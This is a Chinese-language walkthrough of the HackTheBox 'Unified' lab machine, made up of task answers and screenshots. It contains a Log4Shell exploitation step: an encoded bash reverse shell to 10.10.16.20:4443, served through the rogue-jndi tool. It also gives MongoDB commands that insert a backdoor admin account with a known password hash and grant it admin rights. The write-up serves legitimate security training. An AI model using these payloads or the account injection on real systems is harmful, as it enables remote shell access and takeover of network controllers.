hackthebox_unified解题思路
---

## 前提条件

宿主机和目标机器需要在同一网段中

1. kali中可以使用
```bash
openvpn unified.ovpn
```
连接到hackthebox的vpn

2. windows 中可以使用`openvpn.exe`
    下载连接 [OPENVPN](https://openvpn.net/client/client-connect-vpn-for-windows/)

    OPENVPN 加代理 速度快一点

    

    在创建配置文件时 需要勾选代理

    


## 题解

### task 7 What port do we need to inspect intercepted traffic for?



常规思路代理抓包

remberme log4j??


本机IP 




尝试让本机IP访问目标机器的ldap服务

request


因为在windows 下进行攻击靶机此处使用 `windump`代替`tcpdump`

```bash
windump -D
windump -i 1
```
指定端口




存在log4j漏洞



通过编译ldap服务来利用该漏洞

`git clone https://github.com/veracode-research/rogue-jndi`

下载mvn.zip



理论上来说

`bash -i >&/dev/tcp/10.10.16.20/4443 0>&1`

`bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE2LjIwLzQ0NDMgMD4mMQ==}|{base64,-d}|{bash,-i}`

https://ares-x.com/tools/runtime-exec



```bash
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE2LjIwLzQ0NDMgMD4mMQ==}|{base64,-d}|{bash,-i}" --hostname "10.10.16.20"
```

启动jar



注意看启动了tomcat服务


监听4443端口




buripsuie 重发



**理论上会拿到shell**






### task 8 What port is the MongoDB service running on?



端口 27117

### TASK 9 What is the default database name for UniFi applications?

ace 

google it

### TASK 10

What is the function we use to enumerate users within the database in MongoDB?

`mongo --port  27117 ace`




`db.admin.find()`



### TASK 11

What is the function we use to update users within the database in MongoDB?

`db.admin.insert()`

### TASK 12

What is the password for the root user?


```bash
db.admin.insert({ "email" : "pilgrim@localhost.local", "last_site_name" : "default", "name" : "unifi-admin", "time_created" : NumberLong(100019800), "x_shadow" : "$6$s35.XAjj83yh2Ssr$NnS1Br9C1qhLxPSlxCJn9DH0q42DOqPJDx6fXTuA8fbfcTBfwRIT7eBRsyaCU13zlqwrtgNZGV7p4mpQ8yMOc/" })
```





`db.site.find().forEach(printjson);`


`db.privilege.insert({ "admin_id" : "66a5d4f9e88a7f30f38ba2e8", "permissions" : [ ], "role" : "admin", "site_id" : "61ce269d46e0fb0012d47ec4" });`

Submit user flag







Submit root flag






> 不知道为什么,OPENVPN 的UDP协议无法连接,只能使用TCP协议连接,速度慢一点,但是可以连接成功,不知道是不是因为网络问题,还是OPENVPN的问题, 有没有师傅知道的,请告诉我一下,谢谢! 